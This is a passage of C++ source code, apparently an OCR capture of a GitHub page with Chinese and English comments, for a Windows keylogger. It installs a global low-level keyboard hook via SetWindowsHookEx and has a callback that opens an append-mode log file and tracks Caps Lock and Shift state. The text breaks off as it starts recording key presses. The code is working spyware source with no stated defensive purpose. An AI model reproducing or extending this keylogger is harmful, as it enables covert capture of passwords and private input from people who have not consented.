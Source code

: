 ```
        HookProcedure, //  回调函数地址
        GetModuleHandle(NULL), // A handle to the DLL containing the hook procedure 
        NULL //线程ID，欲勾住的线程（为0则不指定，全局）
    );
    if (!kKeyboardHook)
    {
        //  如果SetWindowsHookEx 失败
        cout << "[!] Failed to get handle from SetWindowsHookEx()" << endl;
    }
    else
    {
        cout << "[*] KeyCapture handle ready" << endl;
        MSG Msg{};  //  统一初始化
        while (GetMessage(&Msg, NULL, 0, 0) > 0)
        {
            TranslateMessage(&Msg);
            DispatchMessage(&Msg);
        }
        bRet = TRUE;
    }
    return bRet;
}


//钩子回调函数
LRESULT CALLBACK HookProcedure(int nCode, WPARAM wParam, LPARAM lParam)
{
    ofstream myfile(fileName, ios::out | ios::app);
    BOOL  caps = FALSE;  //  默认大写关闭
    SHORT capsShort = GetKeyState(VK_CAPITAL);
    string outPut;
    stringstream ssTemp;  //  string 字符流
    if (capsShort > 0)
    {
        //  如果大于0，则大写键按下，说明开启大写；反之小写
        caps = TRUE;
    }

    KBDLLHOOKSTRUCT* p = (KBDLLHOOKSTRUCT*)lParam;
    //  wParam和lParam参数包含关于键盘消息的信息。
    if (nCode == HC_ACTION)
    {
        // Messsage data is ready for pickup
        // Check for SHIFT key
        if (p->vkCode == VK_LSHIFT || p->vkCode == VK_RSHIFT)
        {
            //  WM_KEYDOWN, WM_KEYUP, WM_SYSKEYDOWN, or WM_SYSKEYUP.
            if (wParam == WM_KEYDOWN)
            {
                bShift = TRUE;
            }
            if (wParam == WM_KEYUP)
            {
                bShift = FALSE;
            }
            else
            {
                bShift = FALSE;
            }
        }
        //  Start Loging keys now we are setup
        if (wParam == WM_SYSKEYDOWN || wParam == WM_KEYDOWN)
        {
```